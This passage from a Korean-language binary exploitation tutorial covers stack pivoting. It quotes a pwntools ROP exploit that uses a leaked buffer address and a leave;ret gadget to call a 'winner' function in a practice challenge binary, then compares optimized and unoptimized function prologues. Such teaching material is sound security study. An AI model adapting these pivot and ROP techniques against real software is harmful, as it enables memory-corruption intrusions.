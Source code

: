 게다가, 여기에는 **스택 누수**를 사용하여 승리하는 함수를 호출하는 [**챌린지의 예**](https://ir0nstone.gitbook.io/notes/types/stack/stack-pivoting/exploitation/leave)가 있습니다. 이것은 페이지의 최종 페이로드입니다:
```python
from pwn import *

elf = context.binary = ELF('./vuln')
p = process()

p.recvuntil('to: ')
buffer = int(p.recvline(), 16)
log.success(f'Buffer: {hex(buffer)}')

LEAVE_RET = 0x40117c
POP_RDI = 0x40122b
POP_RSI_R15 = 0x401229

payload = flat(
0x0,               # rbp (could be the address of anoter fake RBP)
POP_RDI,
0xdeadbeef,
POP_RSI_R15,
0xdeadc0de,
0x0,
elf.sym['winner']
)

payload = payload.ljust(96, b'A')     # pad to 96 (just get to RBP)

payload += flat(
buffer,         # Load leak address in RBP
LEAVE_RET       # Use leave ro move RSP to the user ROP chain and ret to execute it
)

pause()
p.sendline(payload)
print(p.recvline())
```
## EBP는 사용되지 않을 수 있음

[**이 게시물에서 설명된 바와 같이**](https://github.com/florianhofhammer/stack-buffer-overflow-internship/blob/master/NOTES.md#off-by-one-1), 이진 파일이 일부 최적화와 함께 컴파일되면, **EBP는 ESP를 제어하지 못합니다**, 따라서 EBP를 제어하여 작동하는 모든 익스플로잇은 기본적으로 실패하게 됩니다.\
이는 **이진 파일이 최적화되면** **프롤로그와 에필로그가 변경되기 때문입니다.**

* **최적화되지 않음:**
```bash
push   %ebp         # save ebp
mov    %esp,%ebp    # set new ebp
sub    $0x100,%esp  # increase stack size
.
.
.
leave               # restore ebp (leave == mov %ebp, %esp; pop %ebp)
ret                 # return
```
* **최적화됨:**
```bash
push   %ebx         # save ebx
sub    $0x100,%esp  # increase stack size
.
.
.
add    $0x10c,%esp  # reduce stack size
pop    %ebx         # restore ebx
```